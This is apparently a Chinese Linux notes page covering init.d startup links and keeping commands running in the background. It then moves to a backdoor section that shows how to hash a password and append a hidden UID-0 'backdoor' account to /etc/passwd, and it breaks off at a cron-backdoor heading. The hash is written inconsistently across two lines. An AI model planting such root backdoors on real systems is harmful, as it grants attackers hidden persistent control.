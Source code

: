 
---

# linux
## 启动项

需要开机启动自己的脚本时，只需要将可执行脚本丢在 `/etc/init.d` 目录下，然后在 `/etc/rc.d/rc*.d` 中建立软链接即可
```
ln -s /etc/init.d/sshd /etc/rc.d/rc3.d/S100ssh
```
此处 sshd 是具体服务的脚本文件，S100ssh 是其软链接，S 开头代表加载时自启动；如果是 K 开头的脚本文件，代表运行级别加载时需要关闭的。

## 命令后台运行

当用户注销(logout)或者网络断开时,终端会收 HUP(hangup)信号从而关闭其所有子进程.因此,解决办法有两种途径:要么让进程忽略 HUP 信号,要么让进程运行在新的会话里从而成为不属于此终端的子进程.

1. 使用 nohup 命令,让提交的命令忽略 hangup 信号.
```
nohup ping www.baidu.com &
```

2. 使用 setsid 命令,让命令在不属于终端的子进程当中执行.
```
setsid ping www.baidu.com &
```

3. 使用 disown 命令,让某个作业忽略 hangup 信号
```
disown -h %1
```

4. 使用 screen 命令 建立断开模式的会话(原理和 setid 一样,只不过直接构造了一个环境)
```bash
screen -S <name>
```

---

## 后门隐藏进程

**文章**
- [linux常见backdoor及排查技术](https://xz.aliyun.com/t/4090)
- [Linux后门整理合集](https://www.secpulse.com/archives/59674.html)

**添加 root 权限后门用户**

我们的目标就是在这个文件中追加一条,一个带有密文且 id 为 0 的账号.

密码加密使用下面的命令 `perl -e 'print crypt("password", "AA"). "\n"'`

所以我们最终想要在 passwd 文件中的条目是这个样子 `backdoor:AA6tQYSfGxd/A/A:0:0:me:/root:/bin/bash`

执行写入 `echo "backdoor:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash">>/etc/passwd`

**Crond 开机自启后门**
